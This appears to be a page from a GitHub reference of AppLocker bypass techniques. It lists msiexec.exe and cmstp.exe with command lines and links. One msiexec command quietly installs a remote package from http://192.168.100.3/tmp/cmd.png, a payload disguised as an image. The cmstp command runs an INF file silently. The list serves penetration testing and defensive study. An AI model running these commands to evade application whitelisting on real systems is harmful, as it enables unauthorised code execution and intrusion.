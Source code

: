 

## msiexec.exe

```
msiexec /quiet /i cmd.msi

msiexec /q /i http://192.168.100.3/tmp/cmd.png
```

* Windows binary: Yes  
* Bypasses AppLocker Default rules: NT   

Verified on OS: 
- [ ] Windows 10 1803
- [ ] Windows 10 1709
- [ ] Windows 10 1607
- [ ] Windows 10 1511
- [ ] Windows 10 1507
- [ ] Windows 8.1
- [ ] Windows 8
- [ ] Windows 7

Notes:

* Links:  
  * https://pentestlab.blog/2017/06/16/applocker-bypass-msiexec/



## cmstp.exe

```
cmstp.exe /ni /s c:\cmstp\CorpVPN.inf
```

* Windows binary: Yes  
* Bypasses AppLocker Default rules: NT  

Verified on OS: 
- [ ] Windows 10 1803
- [ ] Windows 10 1709
- [ ] Windows 10 1607
- [ ] Windows 10 1511
- [ ] Windows 10 1507
- [ ] Windows 8.1
- [ ] Windows 8
- [ ] Windows 7

Notes:
Can also execute scriptlets -
https://twitter.com/NickTyrer/status/958450014111633408   
https://gist.github.com/NickTyrer/bbd10d20a5bb78f64a9d13f399ea0f80   

* Links:  
  * https://msitpros.com/?p=3960
  * https://gist.github.com/api0cradle/cf36fd40fa991c3a6f7755d1810cc61e
